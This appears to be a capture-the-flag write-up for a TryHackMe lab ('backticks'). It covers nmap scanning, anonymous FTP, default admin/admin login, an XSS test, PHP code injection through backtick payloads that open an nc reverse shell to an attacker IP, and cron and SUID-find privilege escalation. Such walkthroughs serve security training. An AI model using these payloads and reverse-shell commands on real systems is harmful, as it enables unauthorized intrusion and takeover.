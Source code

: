 ## Room  is backtikcs on tryhackme

The room will let you practise php fileter bypass
1. nmap port scanning
 
          ================================================
         nmap -vv 10.10.183.115 -Pn -T4 -F  --open  -oN nmap-100.txt
         ================================================
         Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
         Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-27 08:02 +11
         Initiating Parallel DNS resolution of 1 host. at 08:02
         Completed Parallel DNS resolution of 1 host. at 08:02, 0.07s elapsed
         Initiating Connect Scan at 08:02
         Scanning 10.10.183.115 [100 ports]
         Discovered open port 80/tcp on 10.10.183.115
         Discovered open port 111/tcp on 10.10.183.115
         Discovered open port 3306/tcp on 10.10.183.115
         Discovered open port 22/tcp on 10.10.183.115
         Discovered open port 21/tcp on 10.10.183.115
         Discovered open port 2049/tcp on 10.10.183.115
         Completed Connect Scan at 08:02, 3.69s elapsed (100 total ports)
         Nmap scan report for 10.10.183.115
         Host is up, received user-set (0.72s latency).
         Scanned at 2021-11-27 08:02:25 +11 for 3s
         Not shown: 94 closed tcp ports (conn-refused)
         PORT     STATE SERVICE REASON
         21/tcp   open  ftp     syn-ack
         22/tcp   open  ssh     syn-ack
         80/tcp   open  http    syn-ack
         111/tcp  open  rpcbind syn-ack
         2049/tcp open  nfs     syn-ack
         3306/tcp open  mysql   syn-ack

         Read data files from: /usr/bin/../share/nmap
         Nmap done: 1 IP address (1 host up) scanned in 3.85 seconds
After further enumeration we found with nmap with more options
       
      ==============================================================
      sudo nmap -v 10.10.183.115 -Pn -sC -sV -O -F -T4 -oN nmap-sVC.txt
      =============================================================
      [sudo] password for mywife: 
      Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
      Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-27 08:02 +11
      NSE: Loaded 155 scripts for scanning.
      NSE: Script Pre-scanning.
      Initiating NSE at 08:02
      Completed NSE at 08:02, 0.00s elapsed
      Initiating NSE at 08:02
      Completed NSE at 08:02, 0.00s elapsed
      Initiating NSE at 08:02
      Completed NSE at 08:02, 0.00s elapsed
      Initiating Parallel DNS resolution of 1 host. at 08:02
      Completed Parallel DNS resolution of 1 host. at 08:02, 0.00s elapsed
      Initiating SYN Stealth Scan at 08:02
      Scanning 10.10.183.115 [100 ports]
      Discovered open port 80/tcp on 10.10.183.115
      Discovered open port 22/tcp on 10.10.183.115
      Discovered open port 3306/tcp on 10.10.183.115
      Discovered open port 21/tcp on 10.10.183.115
      Discovered open port 111/tcp on 10.10.183.115
      Discovered open port 2049/tcp on 10.10.183.115
      Completed SYN Stealth Scan at 08:02, 2.32s elapsed (100 total ports)
      Initiating Service scan at 08:02
      Scanning 6 services on 10.10.183.115
      Completed Service scan at 08:02, 7.50s elapsed (6 services on 1 host)
      Initiating OS detection (try #1) against 10.10.183.115
      Retrying OS detection (try #2) against 10.10.183.115
      Retrying OS detection (try #3) against 10.10.183.115
      Retrying OS detection (try #4) against 10.10.183.115
      Retrying OS detection (try #5) against 10.10.183.115
      NSE: Script scanning 10.10.183.115.
      Initiating NSE at 08:03
      NSE: [ftp-bounce] PORT response: 500 Illegal PORT command.
      Completed NSE at 08:03, 19.79s elapsed
      Initiating NSE at 08:03
      Completed NSE at 08:03, 8.88s elapsed
      Initiating NSE at 08:03
      Completed NSE at 08:03, 0.00s elapsed
      Nmap scan report for 10.10.183.115
      Host is up (0.71s latency).
      Not shown: 94 closed tcp ports (reset)
      PORT     STATE SERVICE VERSION
      21/tcp   open  ftp     vsftpd 3.0.3
      | ftp-syst: 
      |   STAT: 
      | FTP server status:
      |      Connected to ::ffff:10.4.54.226
      |      Logged in as ftp
      |      TYPE: ASCII
      |      No session bandwidth limit
      |      Session timeout in seconds is 300
      |      Control connection is plain text
      |      Data connections will be plain text
      |      At session startup, client count was 2
      |      vsFTPd 3.0.3 - secure, fast, stable
      |_End of status
      | ftp-anon: Anonymous FTP login allowed (FTP code 230)
      |_drwxr-xr-x    2 ftp      ftp          4096 Nov 16 19:45 pub
      22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 ea:b9:0f:99:fd:40:d1:20:a0:f8:68:6b:8e:92:34:43 (RSA)
      |   256 a9:fc:f0:55:6d:a8:3b:f9:1d:f6:5b:ee:22:d3:71:cc (ECDSA)
      |_  256 ae:8e:24:1b:f4:2f:2c:51:08:ca:54:da:8c:ec:e6:c5 (ED25519)
      80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
      |_http-title: Apache2 Ubuntu Default Page: It works
      | http-methods: 
      |_  Supported Methods: GET HEAD POST OPTIONS
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      111/tcp  open  rpcbind 2-4 (RPC #100000)

 2. FTP Anonymous Login
 The output of it we will see that we have anonymous access to ftp server on `port 21`
 
     ftp <ip>

        username: anonymous
        passsword: anything
    
then you will find a directory called pub in which inside it has a dockfile which you cam download it through

    get manifest.docs
    
Then navigate to the directory you downloaded and open it to read what is inside. 
It is nothing but a was to use backticks tricks to bypass php filters
  so every thing suspicious is terminated. So using backticks you completely bypass it
 
 3. Web service Enumeration
 
    * navigating to the the web page using the `VPN` ip provided we can see that there is default ubuntu page
           ![](images/page.png)
     * Viewing source codes we found there i some comments which is suspecious and it looks like base64 encoded string   
         
             ![](images/footer.png)
         so decoding it as `base64` we can see the out put is
              
                 echo "L2JhY2t0aWNrcwo="|base64 -d                                                                   130 ⨯
                       /backticks
                       
 so goind to `http://<ip>/backticks` we can see the login page now
   trying the deafult usernames and passwords found that `username=admin&& password=admin`
   loggin in we can see that there is a ordering system. Going through it we can see there is `game` to play..
    trying `xss` was possible.
      Example 
      
         <script>alert('xss')</script>
         
  Since our aim is to gain full access to the system so let's try to execute system comand by `php code injection`
  many payloads failed but since from `ftp server` i learned something `backticks` i tryed to use backticks triks to execute commandds
  
  
  example 
  
    ${print `ls`}
    $print `pwd`}
    ${print `nc -e /bin/bash 10.4.54.226 1191`}
  Then we get reverse shell on backticks as user techguy, so we can submit our user.txt
                 
 ### privilege escation
 
 
   * look at crontabs you may find editable to everybody scripts and it is run as user john so you cat get the user malwarepeter shell now
             
                      # cat /etc/crontab
                                 
                        # /etc/crontab: system-wide crontab
                        # Unlike any other crontab you don't have to run the `crontab'
                        # command to install the new version when you edit this file
                        # and files in /etc/cron.d. These files also have username fields,
                        # that none of the other crontabs do.

                        SHELL=/bin/sh
                        PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

                        # m h dom mon dow user  command
                        17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
                        25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
                        47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
                        52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )

                        # user malwarepeter
                        *  *    * * * malwarepeter /opt/script.sh
So editing the file and putting in reverseshell payload like

    nc -e /bin/bash 10.4.54.226 1234
    
Then waiting for few minutes for cronjob to run and get malwarepeter shell on the netcat listerner
  
  #### root  privilege escation
   * To be root just find suid binaries with command like
 
             find / -perm -u=s -type f 2>/dev/null
   * find has SUID so we can use it to read root file like
       
          find . -exec cat /root/root.txt \;
             
   
